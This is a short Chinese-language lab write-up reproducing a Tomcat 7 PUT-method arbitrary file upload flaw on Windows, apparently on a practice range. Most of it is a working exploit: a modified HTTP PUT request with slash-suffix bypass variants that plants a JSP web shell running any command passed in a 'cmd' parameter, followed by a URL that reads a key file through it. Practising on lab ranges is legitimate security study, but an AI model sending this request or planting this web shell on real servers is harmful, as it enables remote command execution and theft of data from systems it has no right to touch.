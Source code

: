 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/120  
复现版本：Tomcat 7.0.79

# 0x01 环境搭建
无

# 0x02 利用条件
安装在Windows下

# 0x03 影响版本
7.0.0 <= Tomcat <= 7.0.79

# 0x04 漏洞复现
攻击环境：kali2020

访问目标地址，burp抓包，改包如下：  
```
PUT /cmd.jsp// HTTP/1.1
（PUT /cmd.jsp/ HTTP/1.1）
（PUT /cmd.jsp HTTP/1.1）
Host: 219.153.49.228:45174
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 313

<%
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
%>
```
Send后，返回如下，返回“HTTP/1.1 201 Created”表示文件创建成功  
![image](./f0.png)  
访问如下URL：http://219.153.49.228:45174/cmd.jsp?cmd=cat%20/key.txt 后，返回执行命令后的结果  
![image](./f1.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
